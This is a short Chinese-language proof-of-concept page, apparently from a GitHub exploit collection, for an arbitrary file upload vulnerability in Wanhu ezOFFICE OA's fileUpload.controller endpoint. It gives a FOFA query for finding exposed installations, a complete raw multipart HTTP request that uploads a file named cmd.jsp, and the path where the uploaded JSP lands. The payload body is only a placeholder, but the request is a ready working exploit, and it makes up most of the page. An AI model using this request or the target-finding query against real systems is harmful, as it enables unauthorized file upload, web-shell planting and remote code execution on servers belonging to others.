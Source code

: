 ## 万户OA-fileUpload.controller任意文件上传漏洞

万户OA /defaultroot/upload/fileUpload.controller 任意文件上传漏洞，允许攻击者上传恶意文件到服务器，可能导致远程代码执行、网站篡改或其他形式的攻击，严重威胁系统和数据安全。

## fofa
```javascript
app="万户ezOFFICE协同管理平台"
```

## poc
```javascript
POST /defaultroot/upload/fileUpload.controller HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: Keep-Alive
Content-Type: multipart/form-data; boundary=KPmtcldVGtT3s8kux_aHDDZ4-A7wRsken5v0
Content-Length: 773

--KPmtcldVGtT3s8kux_aHDDZ4-A7wRsken5v0
Content-Disposition: form-data; name="file"; filename="cmd.jsp"
Content-Type: application/octet-stream
Content-Transfer-Encoding: binary

aaaaa
--KPmtcldVGtT3s8kux_aHDDZ4-A7wRsken5v0--
```
![47f45d2a4762a6cf52707c1cddc901ef](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409261037078.png)

文件路径` /defaultroot/upload/html/xxxxxxxxxx.jsp`

